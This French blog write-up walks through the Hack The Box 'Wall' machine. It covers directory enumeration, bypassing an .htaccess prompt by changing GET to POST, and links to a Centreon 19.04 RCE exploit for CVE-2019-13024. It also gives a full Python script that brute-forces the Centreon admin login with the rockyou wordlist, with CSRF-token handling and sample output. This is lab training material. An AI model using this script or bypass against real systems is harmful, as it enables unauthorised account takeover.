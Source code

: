 ```yaml
---
layout: post
title: HTB - Wall
subtitle: Hack The Box - Linux Machine 
gh-repo: 0xSs0rZ/0xSs0rZ.github.io
gh-badge: [star]
tags: [HTB, Linux, Apache, Python, Centreon, BeautifulSoup, CVE 2019-13024]
comments: false
---
```



L'url http://10.10.10.157/ mène sur la page par défaut d'Apache sous Ubuntu

Nmap nous dit que les ports 22 ssh et 80 http sont ouverts

Énumérons les dossiers:

~~~
root@Host-001:~# dirb http://10.10.10.157

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Thu Oct  3 18:19:32 2019
URL_BASE: http://10.10.10.157/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://10.10.10.157/ ----
+ http://10.10.10.157/index.html (CODE:200|SIZE:10918)                         
+ http://10.10.10.157/monitoring (CODE:401|SIZE:459)                           
+ http://10.10.10.157/server-status (CODE:403|SIZE:300)                        
                                                                               
-----------------
END_TIME: Thu Oct  3 18:20:44 2019
DOWNLOADED: 4612 - FOUND: 3
~~~

Se rendre sur http://10.10.10.157/monitoring

Nous avons une authentification .htaccess

Bypasser l'authentification en utilisant POST à la place de GET dans la requête avec Burp

On est reconduit sur la page 

On tombe sur une page de login de Centreon v. 19.04.0 

Cette version de Centreon est vulnerable CVE 2019-13024:

- [https://www.akaoma.com/ressources/cve/code-execution/cve-2019-13024](https://www.akaoma.com/ressources/cve/code-execution/cve-2019-13024)
- [https://shells.systems/centreon-v19-04-remote-code-execution-cve-2019-13024/](https://shells.systems/centreon-v19-04-remote-code-execution-cve-2019-13024/)

Utilisons l'exploit pour cette CVE: [https://gist.github.com/mhaskar/c4255f6cf45b19b8a852c780f50576da](https://gist.github.com/mhaskar/c4255f6cf45b19b8a852c780f50576da)

Pour utiliser cet exploit il faut avoir les bons credentials. 

Les credentials par défault admin::centreon ne fonctionnent pas pour la page http. Idem root::centreon ne fonctionne pas pour la connection SSH. Ref: [https://documentation.centreon.com/docs/centreon/en/latest/installation/from_VM.html](https://documentation.centreon.com/docs/centreon/en/latest/installation/from_VM.html)

Brute-forcer les credentials avec Hydra. Faux positif pour le compte admin sur la page http.

Script maison [bruteForceCentreon.py](https://github.com/0xSs0rZ/CTF/blob/master/brute_force_centreon.py):

~~~
#!/usr/bin/python3

#Custom script to crack credentials from Centreon login form (HTB: Wall machine)
#Inspired from: https://gist.github.com/mhaskar/c4255f6cf45b19b8a852c780f50576da


import requests
import sys
import warnings
from bs4 import BeautifulSoup

fd = open("/usr/share/wordlists/rockyou.txt", "rb")
passwd_list = fd.readlines()
fd.close()

for password in passwd_list:

	print("[+] Trying:" + password)
	request = requests.session()
	print("[+] Retrieving CSRF token to submit the login form")
	page = request.get("http://10.10.10.157/centreon/index.php")
	html_content = page.text
	soup = BeautifulSoup(html_content)
	token = soup.findAll('input')[3].get("value")

	login_info = {
    		"useralias": "admin",
    		"password": password,
    		"submitLogin": "Connect",
    		"centreon_token": token
	}


	login_request = request.post("http://10.10.10.157/centreon/index.php", login_info)
	print("[+] Login token is : {0}".format(token))

	if "Your credentials are incorrect." not in login_request.text:
		print("[+] Logged In Sucssfully. Password is: " + password)
		exit()
	else:
		print("[-] Wrong credentials")
~~~

Lancer le script:

~~~
root@Host-001:~/Bureau# python bruteForceCentreon.py 
~~~

Résultat:

(...)

~~~
[+] Retrieving CSRF token to submit the login form
[+] Login token is : 7335bffb040efca5cf401759956e8768
[-] Wrong credentials
[+] Trying:rock you

[+] Retrieving CSRF token to submit the login form
[+] Login token is : 06d5023d6c9d373d9e44aa0c4dae7a9a
[+] Logged In Sucssfully. Password is: rock you
~~~

On essaye de se loguer avec admin::rock you mais on tombe sur une erreur 403 

On modifie le script et on se rend compte que n'importe quel mdp avec un espace ou un # dedans renvoie une erreur 403

**Poursuivez avec :** 

[- Oneliner Shells](https://0xss0rz.github.io/2020-05-10-Oneliner-shells/)
[- HTB - Write Up Machine](https://0xss0rz.github.io/2020-08-04-HTB-Write-Up/)

[![CC-BY](https://mirrors.creativecommons.org/presskit/buttons/88x31/svg/by.svg)](https://creativecommons.org/licenses/by/4.0/)

This work is licensed under a [Creative Commons Attribution 4.0 International License](https://creativecommons.org/licenses/by/4.0/).
